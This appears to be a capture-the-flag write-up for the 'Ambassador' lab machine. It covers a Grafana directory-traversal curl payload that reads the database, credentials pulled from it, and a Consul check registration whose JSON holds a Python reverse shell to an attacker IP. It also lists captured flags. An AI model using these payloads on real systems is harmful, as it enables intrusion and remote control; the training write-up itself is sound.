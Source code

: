 # Ambassador

## Enumeration
### Nmap
SSH: 8.2p1
HTTP: Apache 2.4.41
    p80/p3000
    https://www.cvedetails.com/cve/CVE-2020-11984/
SQL: p3306 MySQL 8.0.30

### Web p80
GoHugo Framework
Theme: ananke

Pages:
/index.xml

### Web p3000
Grafana v8.2.0
```bash
searchsploit Grafana
----------------------------------------- ---------------------------------
 Exploit Title                           |  Path
----------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)  | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and  | multiple/webapps/50581.py
----------------------------------------- ---------------------------------
Shellcodes: No Results
```
#### Login as admin
admin:messageInABottle685427

#### Download database
$ curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
$ sqlite3 grafana.db
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2022-12-07 14:57:21|0|{}|1|uKewFgM4z

### MySQL p3306
grafana:dontStandSoCloseToMe63221!

mysql> use whackywidget;
mysql> select * from user;
developer:YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==
$ echo 'YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==' | base64 -d 
anEnglishManInNewYork027468

## Foothold
### LFI grafana
See exploit script

Users: developer

### SSH
developer:anEnglishManInNewYork027468

developer $ cat user.txt
c1e6b3f10659283ef15a0423ff382e32

#### Ports
```bash
[-] Listening TCP:
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8600          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::3000                 :::*                    LISTEN      -                   


[-] Listening UDP:
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
udp        0      0 127.0.0.1:8600          0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
udp        0      0 127.0.0.1:8301          0.0.0.0:*                           -                   
udp        0      0 127.0.0.1:8302          0.0.0.0:*                           - 
```

#### Packages
SGID: at 3.1.23
CVE-2002-1614

lxc 4.0.9

#### WHackywidget
/opt/my-app

$ export CONSUL_HTTP_TOKEN=bb03b43b-1d81-d62b-24b5-39540ee469b5

$ curl --header "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" --request PUT --data @data.json http://127.0.0.1:8500/v1/agent/check/register

data.json
```javascript
{
  "ID": "rce",
  "Name": "Remote Code Execution",
  "Args": ["python3", "-c", "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.5',9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.Popen(['/bin/sh','-i']);"],
  "Shell": "/bin/bash",
  "Interval": "5s"
}
```
root $ cat /root/root.txt
36b5be46f3936726d92e4195e4b0da1c
